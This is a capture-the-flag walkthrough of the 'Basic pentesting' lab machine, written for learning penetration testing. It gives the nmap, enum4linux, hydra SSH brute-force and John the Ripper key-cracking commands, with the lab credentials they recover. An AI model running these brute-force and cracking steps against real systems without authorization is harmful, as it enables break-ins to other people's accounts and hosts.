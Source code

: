 # Basic pentesting

![image](https://jorgechato.com/content/images/2020/03/image.png)

### 1️. Deploy the machine and connect to our network

### 2️. Find the services exposed by the machine
```
$ nmap -sC -sV <IP>
```

```
Nmap 7.80 scan initiated Sun Mar 22 11:26:39 2020 as: nmap -sC -sV -oN output/nmap 10.10.38.196
Nmap scan report for 10.10.38.196
Host is up (0.077s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2020-03-22T06:26:54-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-03-22T10:26:54
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 22 11:26:58 2020 -- 1 IP address (1 host up) scanned in 19.80 seconds
```

We  have 3 Open PORTS:

22 (SSH)
139 and 445 (smbd)
If we open this IP in the browser we see a server sunning.

![image](https://jorgechato.com/content/images/2020/03/image-6.png)

### 3. What is the name of the hidden directory on the web server(enter name without /)?
```
<!-- Check our dev note section if you need to know what to worck on. -->
```
We could use gobuster to search for directories with brute-force but since we have a hint here let's try it first... ok /dev isn't the directory we are looking for but we see an apache server running. Maybe /development is the right endpoint... Yes, we nailed it.

![image](https://jorgechato.com/content/images/2020/03/image-7.png)


### 4. User brute-forcing to find the username & password

### 5. What is the username?

We have smbd open, that can give us a lot of information. We can use Enum4linux for that. Since I don't have the tool installed on my machine and handling all the dependencies may be a nightmare let's use docker.
```
$ docker run --rm -it enum4linux -a <IP>
```

2 users pop up, jan a.k.a. J and kay a.k.a. K.

### 6. What is the password? + 7. What service do you use to access the server(answer in abbreviation in all caps)?

Seen the input field we can assume the password is pretty simple, a brute force approach should unlock it.

We have the information about the open ports thanks the nmap tool. SSH is a great candidate with a tool called Hydra. A common password dictionary is needed tho and we are going to use rockyou.txt

Rockyou.txt contains 14,341,564 unique passwords, used in 32,603,388 accounts.

Kali Linux provides this dictionary file as part of its standard installation.
```
$ hydra -l jan -P rockyou.txt ssh:<ip>
login: jan   password: armando
```
### 8. Enumerate the machine to find any vectors for privilege escalation

### 9. What is the name of the other user you found(all lower case)?

We already have this information from point 5.

### 10. If you have found another user, what can you do with this information? + 11. What is the final password you obtain?

Awesome, now we can login with SSH as jan . Listing the file in jan directory doesn’t give us any answer to escalating the privilege. Still, remember we have the user kay? Let’s find it out.

We found the id_rsa and id_rsa.pub and a strange file pass.back, unfortunately when we try to ssh using the key file we see the key requires a passphrase.
```
$ ssh -i id_rsa kay@<IP>

Enter passphrase for key 'id_rsa':
```

But luckily we can cat out this file and crack the key with _JohnTheRipper_

```
$ ssh2john.py output/kay/id_rsa > id_rsa.txt

$ docker run -it --rm -v $(pwd)/id_rsa.txt:/opt/id_rsa.txt -v $(pwd)/dic/rockyou.txt:/opt/rockyou.txt obscuritylabs/johntheripper /opt/id_rsa.txt --wordlist=/opt/rockyou.txt
...
beeswax   (output/kay/id_rsa)
```


Now we can login as kay with the public key and cat the strange file we saw under the home directory for this user.

```
$ ssh -i id_rsa kay@<IP>

$ cat pass.back

heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```